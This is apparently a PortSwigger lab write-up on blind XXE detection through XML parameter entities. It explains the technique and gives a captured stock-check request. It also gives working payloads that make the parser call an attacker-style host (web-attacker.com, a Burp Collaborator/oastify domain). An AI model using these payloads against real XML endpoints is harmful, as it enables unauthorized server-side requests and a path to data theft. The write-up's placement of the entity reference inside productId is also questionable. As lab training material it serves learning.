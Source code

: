 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/aa4f23ae-5538-4b0d-ad81-5c3fd061b2cf)

## Overview :

 **Sometimes, XXE attacks using regular entities are blocked**, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to **use XML parameter entities instead**. XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD. For present purposes, you only need to know two things. First, the declaration of an XML parameter entity includes the percent character before the entity name:

 ```xml
<!ENTITY % myparameterentity "my parameter entity value" >
```

And second, parameter entities are referenced using the percent character instead of the usual ampersand:

```
%myparameterentity;
```

This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

This XXE payload declares an XML parameter entity called xxe and then uses the entity within the DTD. This will cause a DNS lookup and HTTP request to the attacker's domain, verifying that the attack was successful. 

## Solution :


Clicking on checkstock feature , browser sends the following request.

```xml
POST /product/stock HTTP/1.1
Host: 0a0f001d038e90d781560cbc008a008e.web-security-academy.net
Cookie: session=tWHXpacEnJFUs1Ubp8MfIn8s0crmL4Uc
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a0f001d038e90d781560cbc008a008e.web-security-academy.net/product?productId=1
Content-Type: application/xml
Content-Length: 107
Origin: https://0a0f001d038e90d781560cbc008a008e.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```

First we will declare a DOCTYPE eith parameterized entitites (**%**) which contains the url of our collaborator server -`<!DOCTYPE root [<!ENTITY % ext SYSTEM "http://UNIQUE_ID_FOR_BURP_COLLABORATOR.burpcollaborator.net/x">]>`

Then in the `<productID>` , we can reference the parameterized entitiy using - `%ext;`


**Payload -**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY % ext SYSTEM "http://jre5j77p3ggwt0aat4r2larlwc22qr.oastify.com/x">]>
 <stockCheck>
 <productId>% ext;</productId>
 <storeId>1</storeId>
</stockCheck>
```


The response says - `Invalid product ID` which means the product id  is invalid but it is a indication that the xml parser parsed the xml query & made outbound request to our collaborator-server.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/89bb94c8-ebee-466d-b967-94c6c98ffbcd)





















